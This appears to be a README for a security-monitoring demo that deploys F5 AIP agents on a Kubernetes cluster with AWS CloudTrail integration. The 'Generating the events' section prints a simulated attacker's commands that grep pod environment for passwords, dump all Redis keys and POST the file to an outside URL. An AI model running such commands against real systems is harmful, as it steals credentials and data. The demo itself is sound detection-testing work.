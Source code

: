 XC AIP Demo with CloudTrail integration
==============================
This blueprint allows you to automatically deploy AIP agents into an existing Kubernetes cluster (k3s) running across 2 nodes in UDF. Additionally this blueprint leverages AWS cloud account to configure and integrate AWS CloudTrail with AIP automatically.

What you need to do **BEFORE starting the deployment:**
-------------------------------------------------------

## Copy AIP keys and Account ID


1. Login to F5 Distributed Cloud tenant where you would like AIP to be connected to
2. Navigate to *App Infrastructure Protection* -> **YOUR ORG (mapped NS in XC)** ->*Settings* -> *Keys*
3. Copy the following values:
    - **Deployment Key**
    - **REST API Key**
    - **Organization ID**
    - **User ID**

4. Navigate to *Settings* -> *Integrations* -> *Click on "ADD AWS INTEGRATION"
5. Copy **Account ID** value

## **NEW** Populate Deployment Tags
Recent UDF release introduced deployment-wide tags that this BP uses in place of component-specific User Tags. We recommend using Deployment Tags as it guarantees long-term support from UDF.

1. In this UDF blueprint locate Tags tab
2. You need to populate 5 tags: DEPLOYMENT_KEY, API_KEY, ORG, USER and ACCOUNT. Optionally, populate **ENABLE_RULES** tag if you want the system to auto-enable rules in the following Rulesets: 
      - Base Rule Set
      - Docker Rule Set
      - Kubernetes Rule Set
      - CloudTrail Rule Set

*Note: Due to AIP API throttling (max 16 requests per min) it will take the script full **15 mins** to enable all 238 rules across the Rulesets.*


**Example of User Tags:**

![tags](https://github.com/f5devcentral/aip-demo-udf/blob/main/user_tags.jpg?raw=true)

## Start the deployment

Startup script will perform the following actions to integrate 3 agents (1 on each node plus 1 agent that "listens" to k8s API) and AWS CloudTrail:

 1. Gather data from env file and UDF metadata (user tags)
 2. Deploy stack using Cloudformation template
 3. Create integration on AIP side and gather External ID
 4. Update stack with AIP External ID
 5. Create CloudTrail resources in AIP

## Generating the events

There is a "rogue" pod that will be generating events. The pod uses the following commands to simulate the adversary:

```
kubectl apply -f pod.yaml
kubectl exec redis-client -- env |grep -i pass
REDISCLI_AUTH="$REDIS_PASSWORD" /usr/local/bin/redis-cli -h redis-cluster-master keys \* > my.db
curl --connect-timeout 1 -X POST -F "image=@my.db" https://f5se.com/data/db/my/1.db
```

This behavior is in line with the attacker locating redis DB and exfiltrating DB data to an arbitrary URL

## Enabling Rules

Unless **ENABLE_RULES** User Tag was specified for the deployment, it is necessary to manually enable Rules in order for the system to start generating **Alerts**

To manually enable the Rules, navigate to *Rules* and enable the following Rule Sets:

  1. Base Rule Set
  2. Docker Rule Set
  3. Cloud Trail Rule Set
  4. Kubernetes Rule Set

Additionally, under **RULE TYPE** select the following types and ensure all rules under these types are enabled:

  1. Cloud Trail
  2. File Integrity
  3. Host
  4. Kubernetes Audit
